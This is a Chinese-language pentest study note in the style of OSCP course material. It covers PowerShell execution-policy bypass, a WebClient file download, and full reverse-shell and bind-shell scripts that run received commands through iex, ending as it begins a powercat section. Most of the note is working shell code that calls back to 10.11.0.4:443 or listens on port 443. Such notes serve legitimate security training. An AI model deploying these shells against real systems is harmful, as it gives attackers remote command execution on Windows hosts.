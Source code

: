 **windows上的powershell默认是无法加载和执行ps1脚本的，需要用管理员身份运行powershell， Set-ExecutionPolicy Unrestricted  之后才能加载和运行脚本**

**POWERSHELL文件传输：**

**由于PowerShell的强大功能和灵活性，这并不像Netcat甚至Socat那样简单明了**

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"`

**通过实例化system.net.webclient对象，调用downlodfile方法来实现文件的下载**

**POWERSHELL创建反弹shell(复杂，但是比较重要，是原生的程序，靠山吃山理念):**

```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

```
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**powershell 绑定shell**

```
C:\Users\offsec> powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto
p()"
```

#### powercat

**利用POWERSHELL的优势来简化绑定/反弹shell的创建**

**kali中powercat 放在/usr/share/windows-source/powershell 下，将powercat.ps1**
